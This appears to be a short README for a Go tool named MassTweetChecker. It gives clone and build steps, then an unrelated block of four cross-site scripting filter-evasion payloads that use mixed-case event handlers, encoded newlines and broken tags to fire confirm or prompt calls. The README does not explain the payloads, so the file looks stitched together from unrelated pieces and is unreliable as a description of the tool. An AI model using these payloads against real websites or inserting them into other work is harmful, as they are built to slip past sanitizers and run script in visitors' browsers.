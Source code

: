 # MassTweetChecker

<h3>Installing</h3>
```
git clone https://github.com/The-Peezoo/MassTweetChecker.git <br> cd MassTweetChecker <br> go build checker.go <br> ./checker
```
```
}]};(confirm)()//\
<A%0aONMouseOvER%0d=%0d[8].find(confirm)>z
</tiTlE/><a%0donpOintErentER%0d=%0d(prompt)``>z
</SCRiPT/><DETAILs/+/onpoINTERenTEr%0a=%0aa=prompt,a()//
```
